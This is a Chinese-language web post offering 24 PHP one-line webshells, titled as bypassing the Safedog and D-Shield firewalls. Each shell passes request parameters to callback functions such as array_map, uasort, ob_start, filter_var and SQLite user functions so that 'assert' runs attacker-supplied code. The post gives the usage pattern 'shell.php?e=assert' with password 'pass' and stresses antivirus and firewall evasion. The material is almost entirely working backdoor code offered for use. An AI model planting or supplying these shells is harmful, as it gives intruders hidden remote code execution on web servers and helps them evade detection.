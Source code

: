 
过狗过盾无特征无动态函数PHP一句话
==================


分享些不需要动态函数、不用eval、不含敏感函数、免杀免拦截的一句话。（少部分一句话需要php5.4.8+、或sqlite/pdo/yaml/memcached扩展等）

原理：https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html  
所有一句话使用方法基本都是：  
http:// target/shell.php?e=assert 密码pass

分享些不需要动态函数、不用eval、不含敏感函数、免杀免拦截的一句话。（少部分一句话需要php5.4.8+、或sqlite/pdo/yaml/memcached扩展等）

原理：https://www.leavesongs.com/PENETRATION/php-callback-backdoor.html  
所有一句话使用方法基本都是：  
http:// target/shell.php?e=assert 密码pass

01


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\],);
array_filter($arr, $e);
```


02


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\],);
array_map($e, $arr);

```

03


```
$e = $_REQUEST\['e'\];
$arr = array('test', $_REQUEST\['pass'\]);
uasort($arr, $e);

```

04


```
$e = $_REQUEST\['e'\];
$arr = array('test' => 1, $_REQUEST\['pass'\] => 2);
uksort($arr, $e);

```

05


```
$arr = new ArrayObject(array('test', $_REQUEST\['pass'\]));
$arr->uasort('assert');
```


06


```
$arr = new ArrayObject(array('test' => 1, $_REQUEST\['pass'\] => 2));
$arr->uksort('assert');
```


07


```
$e = $_REQUEST\['e'\];
$arr = array(1);
array\_reduce($arr, $e, $\_POST\['pass'\]);
```


08


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\]);
$arr2 = array(1);
array_udiff($arr, $arr2, $e);
```


09


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\] => '|.*|e',);
array_walk($arr, $e, '');

```

10


```
$e = $_REQUEST\['e'\];
$arr = array($_POST\['pass'\] => '|.*|e',);
array\_walk\_recursive($arr, $e, '');

```

11

```
mb\_ereg\_replace('.*', $_REQUEST\['pass'\], '', 'e');
```


12


```
echo preg\_filter('|.*|e', $\_REQUEST\['pass'\], '');
```


13


```
ob_start('assert');
echo $_REQUEST\['pass'\];
ob\_end\_flush();
```


14


```
$e = $_REQUEST\['e'\];
register\_shutdown\_function($e, $_REQUEST\['pass'\]);

```

15


```
$e = $_REQUEST\['e'\];
declare(ticks=1);
register\_tick\_function($e, $_REQUEST\['pass'\]);
```


16


```
filter\_var($\_REQUEST\['pass'\], FILTER_CALLBACK, array('options' => 'assert'));
```


17


```
filter\_var\_array(array('test' => $\_REQUEST\['pass'\]), array('test' => array('filter' => FILTER\_CALLBACK, 'options' => 'assert')));
```


18


```
$e = $_REQUEST\['e'\];
$db = new PDO('sqlite:sqlite.db3');
$db->sqliteCreateFunction('myfunc', $e, 1);
$sth = $db->prepare("SELECT myfunc(:exec)");
$sth->execute(array(':exec' => $_REQUEST\['pass'\]));
```


19


```
$e = $_REQUEST\['e'\];
$db = new SQLite3('sqlite.db3');
$db->createFunction('myfunc', $e);
$stmt = $db->prepare("SELECT myfunc(?)");
$stmt->bindValue(1, $\_REQUEST\['pass'\], SQLITE3\_TEXT);
$stmt->execute();
```


20


```
$str = urlencode($_REQUEST\['pass'\]);
$yaml = <<<EOD
greeting: !{$str} "|.+|e"
EOD;
$parsed = yaml\_parse($yaml, 0, $cnt, array("!{$\_REQUEST\['pass'\]}" => 'preg_replace'));
```


21


```
$mem = new Memcache();
$re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
$mem->connect($_REQUEST\['pass'\], 11211, 0);
```


22


```
preg\_replace\_callback('/.+/i', create\_function('$arr', 'return assert($arr\[0\]);'), $\_REQUEST\['pass'\]);

```

23

```

mb\_ereg\_replace\_callback('.+', create\_function('$arr', 'return assert($arr\[0\]);'), $_REQUEST\['pass'\]);

```

24


```
$iterator = new CallbackFilterIterator(new ArrayIterator(array($\_REQUEST\['pass'\],)), create\_function('$a', 'assert($a);'));
foreach ($iterator as $item) {echo $item;}

```


